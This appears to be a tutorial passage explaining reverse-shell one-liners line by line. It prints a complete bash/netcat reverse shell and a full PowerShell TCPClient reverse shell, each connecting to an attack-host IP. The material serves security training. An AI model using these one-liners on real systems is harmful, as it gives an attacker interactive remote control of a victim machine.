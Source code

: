 ```bash

# Make A Named Pipe
mkfifo /tmp/f; 

# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.
# Output Redirection
cat /tmp/f | 

# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# Set Shell Options
/bin/bash -i 2>&1 | 

# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# Open a Connection with Netcat
nc 10.10.14.12 7777 > /tmp/f  
```
Uses Netcat to send a connection to our attack host 10.10.14.12 listening on port 7777. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed


### PowerShell One-liner Explained
```powershell
# Dissect this complex pob
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Calling PowerShell
powershell -nop -c 
```
Executes `powershell.exe` with no profile (`nop`) and executes the command/script block (-c) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in `cmd.exe.`

```powershell
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);

```
Sets/evaluates the variable `$client` equal to (=) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon (;) ensures the commands & code are executed sequentially.

